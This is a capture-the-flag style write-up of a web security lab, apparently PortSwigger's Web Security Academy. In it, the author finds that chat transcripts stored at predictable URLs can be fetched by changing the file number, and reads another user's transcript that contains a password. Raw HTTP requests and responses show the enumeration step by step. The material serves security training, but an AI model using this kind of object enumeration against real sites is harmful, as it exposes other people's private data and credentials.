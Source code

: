 ##  This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs. Solve the lab by finding the password for the user carlos, and logging into their account. 

![alt text](image.png)
- We are looking into the live chat button
- Here we can find View transcript
- If we click that button its automatically downloaded a reply 
- The file name is changing in every iteration 
- it started with 2.txt
- we have to check if we can access the other files like 1.txt , 3.txt from client side 

## POST METHOD
#### Request
```sh
POST /download-transcript/1.txt HTTP/2
Host: 0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Cookie: session=tUAh9r6nR0f87d6hCAySxYX4pq9DqLHr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------58624343111989983041166148171
Content-Length: 547
Origin: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Referer: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers

-----------------------------58624343111989983041166148171
Content-Disposition: form-data; name="transcript"

CONNECTED: -- Now chatting with Hal Pline --<br/>System: --- Disconnected ---<br/>Hal Pline: I've made up my mind. I'm going travelling. Bother someone else with your ludicrous requests.<br/>CONNECTED: -- Now chatting with Hal Pline --<br/>You: hello<br/>Hal Pline: If you try and ask me a question with music at full volume, I won't hear it. Is that not obvious to you?
-----------------------------58624343111989983041166148171--

```
#### Response
```sh
HTTP/2 302 Found
Location: /download-transcript/4.txt
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```
- POST method is giving us error 
- Lets try with GET

## GET METHOD
#### Request
```sh
GET /download-transcript/1.txt HTTP/2
Host: 0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Cookie: session=tUAh9r6nR0f87d6hCAySxYX4pq9DqLHr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------58624343111989983041166148171
Content-Length: 547
Origin: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Referer: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers

-----------------------------58624343111989983041166148171
Content-Disposition: form-data; name="transcript"

CONNECTED: -- Now chatting with Hal Pline --<br/>System: --- Disconnected ---<br/>Hal Pline: I've made up my mind. I'm going travelling. Bother someone else with your ludicrous requests.<br/>CONNECTED: -- Now chatting with Hal Pline --<br/>You: hello<br/>Hal Pline: If you try and ask me a question with music at full volume, I won't hear it. Is that not obvious to you?
-----------------------------58624343111989983041166148171--

```

#### Response
```sh
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Disposition: attachment; filename="1.txt"
X-Frame-Options: SAMEORIGIN
Content-Length: 520

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is tqj8lryq2ssu4pek0qd3. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!

```
- Our user name is carlos which was given in the lab manual
- password is tqj8lryq2ssu4pek0qd3

![alt text](image-1.png)

# Pwned!